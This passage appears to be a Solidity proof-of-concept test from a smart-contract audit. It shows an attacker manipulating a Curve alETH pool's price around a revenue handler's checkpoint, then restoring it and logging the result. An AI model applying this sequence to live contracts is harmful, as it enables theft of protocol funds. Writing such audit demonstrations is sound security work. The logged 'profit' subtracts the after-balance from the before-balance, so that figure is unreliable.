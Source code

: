 ```javascript
        uint256 attackerETHBefore = attacker.balance;

        // Manipulate the price of the pool
        hevm.prank(attacker);
        ICurveStableSwap(alethcrv).exchange{ value: inputAmount }(
            0,
            1,
            inputAmount,
            0,
            attacker
        );

        // --------------------------------------------------------------------------
        // | Checkpoint is executed                                                 |
        // --------------------------------------------------------------------------

        uint256 balBefore = IERC20(aleth).balanceOf(address(revenueHandler));
        assertEq(balBefore, 0);
        revenueHandler.checkpoint();
        uint256 balAfter = IERC20(aleth).balanceOf(address(revenueHandler));
        assertApproxEq(revAmt, balAfter, revAmt / 30);
        

        // --------------------------------------------------------------------------
        // | Attack starts: Restore the pool to his original state                  |
        // --------------------------------------------------------------------------

        inputAmount = IERC20(aleth).balanceOf(attacker);

        // Approve the pool to spend the aleth
        hevm.prank(attacker);
        IERC20(aleth).approve(address(alethcrv), inputAmount);

        // Restore the price of the pool
        hevm.prank(attacker);
        ICurveStableSwap(alethcrv).exchange(
            1,
            0,
            inputAmount,
            0,
            attacker
        );

        // Log attacker profit in ETH
        uint256 attackerETHAfetr = attacker.balance;
        uint256 profit = attackerETHBefore - attackerETHAfetr;
        console2.log("attacker profit in ETH", profit);
        // - attacker profit in ETH 1141830491000656247 wei of ETH ~= 0.114 ETH

    }

```